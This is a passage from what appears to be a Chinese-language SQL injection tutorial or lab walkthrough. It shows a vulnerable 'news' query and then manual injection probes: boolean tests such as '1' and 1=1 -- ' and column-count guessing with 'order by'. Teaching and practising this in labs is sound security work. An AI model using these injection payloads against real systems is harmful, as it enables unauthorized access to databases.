 ![Alt text](image-106.png)  
输入1，可以查询 `id` 为 1 的 `ID` 和 `Data`，同时可以看到执行的sql：   
```sql
 select * from news where id = '1';
```   
### 4.2 手动注入
可以看到两边加了单引号 `'` ，尝试构造以下参数：   
![Alt text](image-109.png)
![Alt text](image-110.png)   
```sql
 1' and 1=1 -- 
 1' and 1=2 --
```
由上可以判断注入成功，执行了 `and` 后面的语句，接下来猜字段数量：
```mysql
 1' order by 2
 1' order by 3
```